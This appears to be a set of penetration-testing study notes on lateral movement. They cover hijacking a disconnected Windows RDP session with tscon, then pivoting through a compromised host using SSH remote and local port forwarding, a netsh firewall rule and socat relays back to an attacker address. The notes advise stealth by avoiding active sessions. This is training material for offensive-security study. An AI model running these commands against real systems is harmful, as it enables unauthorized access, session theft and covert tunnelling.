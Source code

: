 According to the command output above, if we were currently connected via RDP using the administrator user, our SESSIONNAME would be `rdp-tcp#6`. We can also see that a user named luke has left a session open with id `3`. Any session with a **Disc** state has been left open by the user and isn't being used at the moment. While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.

To connect to a session, we will use tscon.exe and specify the session ID we will be taking over, as well as our current SESSIONNAME. Following the previous example, to takeover luke's session if we were connected as the administrator user, we'd use the following command:

```cmd
tscon 3 /dest:rdp-tcp#6
```

In simple terms, the command states that the graphical session `3` owned by luke, should be connected with the RDP session `rdp-tcp#6`, owned by the administrator user.

As a result, we'll resume luke's RDP session and connect to it immediately. 


## Port Forwarding

- M1: Attacker ip: `1.1.1.1`
- M2: ip of compromised machine: `2.2.2.2`
- M3: Target ip: `3.3.3.3`
- Create dummy user
```sh
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
### SSH remote port forwarding
- Connect a port from M1 to M3 via M2
- Run on M2: `ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N`
- After the tunnel is successful, this command will connect M1 to M3: `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`

### SSH local port forwarding
- To forward port 80 from the M1 and make it available from M2, run on M1:
```sh
ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```
- It will open port 80 on M2 and forward the request on M1 on 80
- Allow port 80 in firewall:
```powershell
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```
- After this, any user pointing their browsers to M1 at `http://2.2.2.2:80` and see the website published by the attacker's machine.
### Using Socat
- It connects two sockets: `socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321`
- Eg. Run on M2 `socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389`
- Eg. for rev connection, run on M2: `socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80` 
